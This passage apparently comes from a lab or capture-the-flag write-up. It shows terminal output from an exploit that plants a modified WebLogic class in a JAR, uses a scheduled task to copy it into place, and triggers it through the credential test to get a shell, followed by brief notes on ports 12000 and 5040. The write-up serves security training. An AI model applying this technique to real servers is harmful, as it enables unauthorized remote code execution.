 ```bash
[*] Creating JAR file...
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
added manifest
adding: weblogic/jndi/Environment.class(in = 1844) (out= 1081)(deflated 41%)
[*] Uploading JAR file...
[*] Attempting to upload JAR directly to targeted Weblogic folder...
[!] Failed to upload JAR directly, continue to add and execute job to move JAR...
[*] Creating a task to move the JAR file to relative path: classes/weblogic/version8/...
[*] Found actionname: move_weblogic_jar9869 with found actionid 10000003
[*] Executing created task with id: 10000003 to copy JAR...
[*] Task 10000003 has been executed successfully
[*] Deleting created task as JAR has been copied...
[*] Running the Weblogic credentialtest which triggers the code in the JAR...
[*] Check your shell...
```

# Explore
NSTR

# Escalate
NSTR

# Lessons Learned
* TCP 12000 is used by ClearCommerce Engine 4.x (www.clearcommerce.com) as well as Phantasy Star Universe, CubeForm, Multiplayer SandBox Game.
* TCP 5040 is used by RPC for Windows Deployment Services.
